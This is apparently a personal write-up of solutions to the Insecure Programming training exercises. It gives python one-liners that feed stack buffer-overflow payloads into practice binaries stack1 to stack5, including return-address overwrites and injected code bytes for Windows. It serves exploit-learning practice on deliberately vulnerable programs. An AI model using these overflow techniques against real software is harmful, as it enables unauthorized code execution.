 This document is intended to contain all my solutions to the [Insecure Programming](https://github.com/deadbits/InsecureProgramming) excercises. I will update this document as I advance in the excercises.

####Stack excercises

1. `$ python -c "print 'A'*80 + chr(0x44) + chr(0x43) + chr(0x42) + chr(0x41)" | ./stack1`
2. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x3) + chr(0x2) + chr(0x1)" | ./stack2`
3. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x0) + chr(0x2) + chr(0x1)" | ./stack3`
4. This excercise it's a bit different, since one of the values being compared to `cookie` it's a newline (0xa). Because of this you can't, or at least I wasn't able to get the corresponding memory positions to be equal to the constant. Then, the idea is to directly overwrite the return address so it points where you need it. In order to do so, you need to overwrite more memory positions so you can reach the ones where the function's return address it's stored.
  
  `$ python -c "print 'A'*96 + chr(0xb9) + chr(0x84) + chr(0x04) + chr(0x08)" | ./stack4"`
  
  Note: This solution was tested in Linux. This may not work for you (the distance between the buffer and the location of the return addres may vary. 
5. `$ python -c "print 'you win\x00' + '\x90\xcc' + '\x68\xf4\xfe\x18\x00' + '\xff\x15\x8c\x20\x40\x00' + 'A' * 67 + chr(0xfc) + chr(0xfe) + chr(0x18) + chr(0x0)" | stack5.exe`
  
  Note: The same as ex 4 but for Windows.

